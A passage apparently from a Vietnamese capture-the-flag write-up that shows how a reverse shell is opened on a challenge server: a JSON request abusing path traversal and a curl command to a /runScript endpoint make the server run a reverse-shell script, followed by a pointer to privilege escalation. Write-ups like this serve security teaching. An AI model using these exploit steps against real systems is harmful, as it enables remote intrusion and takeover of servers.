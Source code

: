 - Giờ để listener ở đó, ta quay lại với request thứ 2, request để chạy revshell:

    ```json
    {
        "dir" : "rev_tcp",
        "name" : "rev_tcp.sh",
        "command_log" : "rev",
        "url" : "http://localhost:8888/getData?f=/fus/data/../logs/rev.txt"
    }
    ```

    ```shell
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "rev_tcp","name" : "rev_tcp.sh","command_log" : "rev","url" : "http://localhost:8888/getData?f=/fus/data/../logs/rev.txt"}'
    ```

- Và gửi đi, rồi quay lại listener:

    ![revshell](img/PRP201_10.png)

- Vậy là ta đã mở được reverse shell trên server

- Bây giờ chỉ cần tiến hành [leo thang đặc quyền](https://viblo.asia/p/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-1-using-suid-bit-QpmlexgrZrd) thôi:
